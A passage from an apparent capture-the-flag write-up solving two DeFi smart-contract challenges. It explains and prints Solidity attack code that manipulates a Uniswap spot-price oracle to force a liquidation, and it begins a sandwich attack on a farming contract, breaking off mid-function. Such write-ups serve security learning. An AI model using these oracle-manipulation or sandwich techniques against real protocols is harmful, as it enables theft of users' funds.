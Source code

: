 > This broker has pretty good rates
> 
> Flag: `PCTF{SP07_0R4CL3S_L0L}`

There's a lending platform accepting WETH as collateral to lend out `AMT` tokens.
It uses the spot price of the Uniswap pair which means we can simply skew the oracle reserves and liquidate the challenger's position as their loan is now underwater.
Note that Uniswap can be used for [flash swaps](https://uniswap.org/docs/v2/smart-contract-integration/using-flash-swaps/), i.e., we can borrow AMT tokens and pay them back later.
This however does not work as the reserves are only updated after the callback.
Luckily, each account starts with 5000 ETH, so we can just trade in the Uniswap pair.

```solidity
function attack() external payable {
  weth.deposit{value: msg.value}();

  // skew the uniswap ratio by buying lots of tokens
  // we're heavily overpaying in ETH but we don't care
  weth.transfer(address(pair), weth.balanceOf(address(this)));
  bytes memory payload;
  // (500k AMT, 25 ETH) in reserve
  pair.swap(450_000 * 1 ether, 0, address(this), payload);

  uint256 rate = broker.rate();

  token.approve(address(broker), type(uint256).max);
  // 25 ETH in broker, win condition is < 5 ETH, so withdraw > 20 ETH
  uint256 liqAmount = 21 ether * rate;
  broker.liquidate(address(setup), liqAmount);

  require(setup.isSolved(), "!solved");
}
```

## Farmer

> COMPounding rewards are fun

This challenge consists of a farmer contract that allows anyone to call actions to claim tokens and sell them on the farmer's behalf on Uniswap.
We win this challenge if the farmer ends up with fewer tokens than it would receive from harvesting and recycling all tokens at Uniswap's market rate at the start of the challenge.

This is the prime example of a [sandwich attack](./de-fi-sandwich-attacks/) which I already talked about in detail in another post.

The gist is that the farmer does a `Comp -> WETH -> DAI` trade, and a sandwich attack would be to frontrun this trade by trading `Comp -> WETH` or `WETH -> DAI`.
This leads to an increase in the price of the token the farmer wants to buy.
We can then backrun the trade at this increased price for a profit. (Not required for this challenge.)

```solidity
function attack() external payable {
  // simple sandwich attack on farmer
  // farmer trades Comp -> WETH -> DAI
  // trading Comp -> WETH would be more profitable for us
  // but we don't have any Comp, so do the simpler WETH -> DAI trade

  WETH.deposit{value: msg.value}();
  WETH.approve(address(ROUTER), type(uint256).max);

  address[] memory path = new address[](2);
  path[0] = address(WETH);
  path[1] = address(DAI);

  uint256 bal = WETH.balanceOf(address(this));
```